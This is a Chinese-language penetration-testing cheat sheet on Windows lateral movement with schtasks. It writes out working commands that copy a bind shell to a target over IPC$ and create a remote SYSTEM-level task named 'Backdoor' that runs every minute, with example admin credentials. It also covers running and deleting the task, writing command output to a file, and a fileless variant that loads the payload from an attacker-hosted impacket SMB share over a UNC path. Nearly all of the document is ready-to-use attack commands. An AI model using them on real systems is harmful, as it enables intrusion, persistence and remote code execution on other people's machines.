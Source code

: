 # 计划任务创建

#### schtasks计划任务常规创建利用流程

利用IPC$传shell

```
copy .\bind_tcp.shell \\10.10.10.22\C$
```

schtasks写计划任务

```
	- /Create 创建
	- /S 指定要连接到的系统
	- /TN 指定要创建的任务名称
	- /SC 指定计划任务执行频率
	- /MO 指定计划任务执行周期
	- /TR 指定计划任务运行的路径
	- /RU 指定计划任务运行的用户权限
	- /F 如果指定任务存在则强制创建
```

```
(已建立IPC连接)
schtasks /Create /S 10.10.10.22 /TN Backdoor /SC minute /MO 1 /TR C:\bind_tcp.exe /RU System /F
(未建立IPC连接)
schtasks /Create /S 10.10.10.22 /TN Backdoor /SC minute /MO 1 /TR C:\bind_tcp.exe /RU System /F /U Administartor /P P@ssw0rd!
```

立即执行计划任务

```
schtasks /RUN /S 10.10.10.22 /I /TN Backdoor
```

删除计划任务

```
schtasks /Delete /S 10.10.10.22 /TN Backdoor /F
```

通过创建计划任务写文件

```
schtasks /Create /S 10.10.10.22 /TN Backdoor /SC minute /MO 1 /TR "C:\Windows\System32\cmd.exe /c 'whoami > C:\result.txt'" /RU System /F
```

#### UNC路径加载执行(无文件落地)

攻击机impacket模块起SMB共享shell

```
python3 smbserver.py lbwnb /root/share -smb2support
```

schtasks远程UNC路径加载

```
schtasks /Create /S 10.10.10.22 /TN Backdoor /SC minute /MO 1 /TR \\10.10.10.13\lbwnb\bind_tcp4567.exe /RU System /F /U Administartor /P P@ssw0rd!
```
